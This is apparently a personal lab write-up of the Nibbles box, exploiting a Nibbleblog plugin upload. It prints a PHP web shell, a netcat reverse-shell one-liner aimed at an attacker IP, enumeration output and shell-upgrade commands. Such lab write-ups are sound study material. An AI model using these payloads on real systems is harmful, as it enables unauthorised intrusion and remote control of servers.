 ! We already have access to admin portal


# Plugins exploit
#plugins 
image.php
```php
<?php system('id'); ?>
```

```pug
curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php
```
command execution = yes
```shell-session
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

--> [[Reverse shell]]
#reverse_shell 

we can use this tamplate
```shell-session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```
-> and add it to image.php
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.128.72.254 9443 >/tmp/f"); ?>
```

#netcat listener 
```pug
nc -lvnp 9443
```
#cURL the image page again or browse to it in `Firefox` at `http://nibbleblog/content/private/plugins/my_image/image.php` to execute the reverse shell.
```pug
nc -lvnp 9443
```
```sh
listening on [any] 9443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

#TTY
upgrade TTY [post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)



# End Quiz
Gain a foothold on the target and submit the user.txt flag
```sh
gobuster dir -u http://10.129.4.5/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.4.5/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2024/04/25 20:27:28 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 300]
/.htpasswd            (Status: 403) [Size: 305]
/admin                (Status: 301) [Size: 319] [--> http://10.129.4.5/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]                                         
Progress: 434 / 4615 (9.40%)                                                    /.htaccess            (Status: 403) [Size: 305]                                          
Progress: 776 / 4615 (16.81%)                                                   /content              (Status: 301) [Size: 321] [--> http://10.129.4.5/nibbleblog/content/]
Progress: 1203 / 4615 (26.07%)                                                  Progress: 1682 / 4615 (36.45%)                                                  /index.php            (Status: 200) [Size: 2987]                                           
/languages            (Status: 301) [Size: 323] [--> http://10.129.4.5/nibbleblog/languages/]
Progress: 2288 / 4615 (49.58%)                                                  Progress: 2888 / 4615 (62.58%)                                                  /plugins              (Status: 301) [Size: 321] [--> http://10.129.4.5/nibbleblog/plugins/]  
/README               (Status: 200) [Size: 4628]                                             
Progress: 3494 / 4615 (75.71%)                                                  /themes               (Status: 301) [Size: 320] [--> http://10.129.4.5/nibbleblog/themes/]   
Progress: 4093 / 4615 (88.69%)                                                                                                                                               
===============================================================
2024/04/25 20:27:40 Finished
===============================================================
```
```sh
curl -s http://10.129.4.5/nibbleblog/content/private/users.xml | xmllint  --format -
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<users>
  <user username="admin">
    <id type="integer">0</id>
    <session_fail_count type="integer">0</session_fail_count>
    <session_date type="integer">1514544131</session_date>
  </user>
  <blacklist type="string" ip="10.10.10.1">
    <date type="integer">1512964659</date>
    <fail_count type="integer">1</fail_count>
  </blacklist>
</users>
```


```shell-session
curl http://10.129.42.190/nibbleblog/README
```
![[Pasted image 20250207091524.png]]

![[Pasted image 20240427164635.png]]
password **nibbles** from [[2Nibbles - Web Footprinting]]
Then through plugins set up reverse shell.
```php
<?php system('id'); ?>
```
![[Pasted image 20250207092940.png]]

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.106 9443 >/tmp/f"); ?>
```

![[Pasted image 20250207093342.png]]
![[Pasted image 20240427165453.png]]

For better reverse shell:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![[Pasted image 20240427170147.png]]